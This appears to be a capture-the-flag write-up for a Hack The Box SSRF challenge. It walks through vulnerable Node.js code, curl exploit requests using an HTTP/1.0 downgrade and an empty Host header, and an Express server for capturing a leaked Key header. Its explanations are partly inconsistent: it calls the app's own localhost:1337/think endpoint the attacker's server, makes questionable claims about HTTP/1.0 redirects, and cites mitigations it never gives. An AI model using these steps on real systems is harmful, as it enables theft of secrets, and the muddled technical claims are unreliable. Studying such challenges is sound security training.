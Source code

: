 ```yaml
---
title: Web_Dusty_alleys
published: true
---
```



# Exploiting SSRF Vulnerabilities

In this article, we will walk through the exploitation of a Server-Side Request Forgery (SSRF) vulnerability, particularly focusing on how attackers can misuse the HTTP/1.0 protocol downgrade technique to manipulate the server's behavior, leak sensitive data, and exfiltrate secrets.
What is SSRF?

Server-Side Request Forgery (SSRF) is a vulnerability where an attacker tricks the server into making an HTTP request to an unintended resource. SSRF vulnerabilities typically arise when a server is allowed to fetch URLs provided by a user, but without proper validation or restrictions. This can lead to several serious security issues, including:

    Information leakage: Sensitive data can be sent to an attacker-controlled server.

    Internal network scanning: Attackers can use the vulnerability to probe internal services or servers within the organization.

    Exploitation of other vulnerabilities: In some cases, SSRF can be used to exploit other vulnerabilities, such as those in internal services, databases, or authentication systems.

In this guide, we’ll see how an attacker might exploit an SSRF vulnerability to leak sensitive headers (like cookies or authentication tokens) to an external server under their control.
Overview of the Attack

The SSRF attack we’ll be demonstrating involves the following steps:

-   Identify the Vulnerability: An application allows the user to provide a URL (e.g., via a quote parameter) which it will then fetch using a server-side HTTP client (such as node-fetch).

- Exploit the Vulnerability Using HTTP/1.0: By downgrading the request to HTTP/1.0, the attacker can bypass certain redirect handling mechanisms and gain better control over the server’s behavior.

- Capture Sensitive Headers: The attacker crafts a malicious request that causes the server to fetch a URL they control, exfiltrating sensitive headers like the Key header, which may contain a flag or other sensitive information.



# Step 1: Identifying the Vulnerability

The application you’re targeting allows users to submit a URL via the quote parameter. When the application processes this parameter, it uses an HTTP client (like node-fetch) to make a request to the provided URL, and may forward sensitive headers such as cookies or authentication tokens.

Example of the vulnerable code:
```
router.get("/guardian", async (req, res) => {
  const quote = req.query.quote;
  try {
    let result = await node_fetch(quote, {
      method: "GET",
      headers: { Key: process.env.FLAG || "HTB{REDACTED}" },
    }).then((res) => res.text());

    res.set("Content-Type", "text/plain");
    res.send(result);
  } catch (e) {
    console.error(e);
    return res.render("guardian", { error: "The words are lost in my circuits" });
  }
});
```

Flaw: There is no restriction on where the quote parameter points. The application blindly fetches the URL and forwards headers like Key to the external server.

# Step 2: Downgrading to HTTP/1.0

One of the critical techniques in this attack is downgrading the HTTP version to HTTP/1.0. By doing this, the attacker ensures that the application’s HTTP client behaves differently and may not follow certain redirects, giving the attacker more control over the request.
Why Use HTTP/1.0?

No Automatic Redirects: In HTTP/1.1 and HTTP/2, redirections (via the Location header) are automatically followed. In HTTP/1.0, redirects must be handled manually by the client. This gives the attacker the ability to intercept and control redirects.

Bypassing Server Behavior: Many modern servers may optimize for HTTP/1.1 or HTTP/2, handling headers differently. By forcing HTTP/1.0, attackers may bypass these optimizations and force the server to handle requests in a less secure way.

# How to Force HTTP/1.0 Using curl: 

To force HTTP/1.0 in your request, you can use the `--http1.0` flag with curl.

Example command to downgrade to HTTP/1.0:

`curl http://$IP:$PORT/think --http1.0 -H 'Host:'`

In this case, you’re sending an HTTP request to the /think route with an empty Host header. This step helps you test and verify how the server responds to HTTP/1.0 requests and may reveal virtual hosts or internal configuration details.

Example Response:


```json

{
  "host": "alley.firstalleyontheleft.com",
  "x-real-ip": "10.30.18.174",
  "x-forwarded-for": "10.30.18.174",
  "x-forwarded-proto": "http",
  "connection": "close",
  "user-agent": "curl/8.12.1",
  "accept": "*/*"
}

```

Key Information: You can see the host field, which identifies the virtual host used (alley.firstalleyontheleft.com), along with additional headers that might help identify how the server is configured or its internal structure.

Step 3: Exploiting the SSRF Vulnerability

With the knowledge gained in Step 1 and Step 2, the attacker can now craft an exploit that forces the server to make a request to a location controlled by the attacker.

The goal is to make the server fetch a URL that exfiltrates sensitive headers. The quote parameter in the vulnerable /guardian endpoint can be manipulated to point to the attacker's server (which will capture the request headers).

Exploit Request:

```
curl http://$IP:$PORT/guardian?quote=http%3A%2F%2Flocalhost%3A1337%2Fthink -H 'Host: guardian.firstalleyontheleft.com'
```

Explanation: quote=http%3A%2F%2Flocalhost%3A1337%2Fthink is the URL-encoded path that will make the server send a request to `http://localhost:1337/think`
`Host: guardian.firstalleyontheleft.com` specifies the target virtual host for the request.

When the vulnerable server processes this request, it will make a server-side request to **`http://localhost:1337/think`**, and any sensitive headers (like Key, which might contain the flag) will be forwarded to the attacker’s server.


# Step 4: Capture the Flag

The attacker must set up a server to listen for incoming HTTP requests and capture sensitive headers like the Key header, which may contain the flag.

Example attacker server using Node.js (Express):

```js
const express = require('express');
const app = express();

app.get('/', (req, res) => {
    console.log('Received headers:', req.headers); // Capture sensitive headers
    res.send('Request received!');
});

app.listen(1337, () => {
    console.log('Server is listening on port 1337');
});

````


In this article, we've walked through the process of exploiting an SSRF vulnerability, leveraging HTTP/1.0 downgrades to manipulate server behavior, and capturing sensitive data through crafted HTTP requests. By following this methodology, attackers can exfiltrate secrets from vulnerable applications, while defenders can use the outlined mitigations to secure their systems from such attacks. Always be aware of SSRF risks and take proactive steps to mitigate them.

![image](assets/ach/dusty_alley.png)